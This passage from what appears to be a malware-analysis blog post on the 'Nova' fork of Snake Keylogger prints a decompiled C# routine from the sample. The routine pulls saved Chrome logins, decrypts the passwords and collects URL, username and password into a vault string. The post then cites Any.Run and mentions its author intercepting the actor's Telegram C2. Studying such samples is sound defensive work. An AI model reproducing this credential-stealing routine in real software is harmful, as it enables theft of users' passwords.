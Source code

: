 ```c#
          string value = sqliteHandler.GetValue(i, "origin_url");
          string value2 = sqliteHandler.GetValue(i, "username_value");
          string text2 = sqliteHandler.GetValue(i, "password_value");
          bool flag2 = COVIDPickers.isV10(text2);
          if (flag2)
          {
            byte[] masterKey = COVIDPickers.GetMasterKey(Directory.GetParent(text).Parent.FullName);
            bool flag3 = masterKey == null;
            bool flag4 = !flag3;
            if (flag4)
            {
              text2 = COVIDPickers.DecryptWithKey(Encoding.Default.GetBytes(text2), masterKey);
            }
          }
          else
          {
            text2 = COVIDPickers.Decrypttttt(Encoding.Default.GetBytes(sqliteHandler.GetValue(i, "password_value")));
          }
          bool flag5 = (Operators.CompareString(value2, "", false) != 0) & (Operators.CompareString(text2, "", false) != 0);
          if (flag5)
          {
            string text3 = string.Concat(new string[] { "\r\n============X============\r\nURL: ", value, "\r\nUsername: ", value2, "\r\nPassword: ", text2, "\r\nApplication: Google Chrome\r\n=========================\r\n " });
            UltraSpeed.PasswordVault += text3;
          }
        }
      }
    }
    catch (Exception ex)
    {
    }
  }
}
```

# Conclusion

As mentioned before, [Any.Run](https://any.run/cybersecurity-blog/nova-keylogger-malware-analysis/) initially coined this malware "Nova" and described it as "a newly discovered fork of the Snake Keylogger family. This variant has been observed employing even more sophisticated tactics, signaling the continued adaptation and persistence of the Snake malware family in the cybersecurity landscape". I'd encourage those who are interested to check out their blog, which describes a different execution chain. 

Finally, in my other [blog post](https://polygonben.github.io/malware%20analysis/Compromising-Threat-Actor-Communications/), I detail how I stole the Telegram C2 communications associated with the above sample. These communications led to the discovery that the threat actor responsible for delivering this malware had tested the payload on his own machine and therefore insight was gained into the backend infrastructure behind this campaign and many others. 